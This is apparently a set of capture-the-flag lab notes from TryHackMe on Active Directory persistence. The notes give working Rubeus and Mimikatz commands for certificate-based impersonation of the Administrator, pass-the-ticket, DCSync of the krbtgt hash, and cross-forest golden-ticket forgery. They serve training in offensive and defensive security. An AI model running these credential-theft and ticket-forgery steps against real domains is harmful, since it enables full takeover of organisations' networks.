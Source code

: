 Once you are happy with it, click Apply and OK. Then, select the certificate and click Enroll. You should be able to see your certificate:

The last step is to export our certificate with the private key:

    Right-click on the certificate and select All Tasks->Export...
    Click Next, select Yes, export the private key, and click Next.
    Click Next, then set a password for the certificate since the private key cannot be exported without a password.
    Click Next and select a location to store the certificate.
    Click Next and finally click Finish.

# User Impersonation through a Certificate
`\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101`*Ask ticket granting ticket*

# Use the ticket for access 
`mimikatz # privilege::debug`
`mimikatz # kerberos::ptt administrator.kirbi`
`mimikatz # exit`
`dir \\THMDC.za.tryhackme.loc\c$\`

# Golden ticket mimikatz
The ingredetients we need:
    The FQDN of the domain
    The Security Identifier (SID) of the domain
    The username of the account we want to impersonate
    The KRBTGT password hash

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /user:za\krbtgt`

# Cross forest trust golden ticket(AD-RSAT Powershell cmdlets)
`Get-ADComputer -Identity "THMDC"`*recover the SID of the child domain controller*
`Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc`*recover the SID of the parent domain controller*

`mimikatz # privilege::debug`

`mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt`

`mimikatz # exit`

`dir \\thmdc.za.tryhackme.loc\c$`
`dir \\thmrootdc.tryhackme.loc\c$\` *So works for both domains*
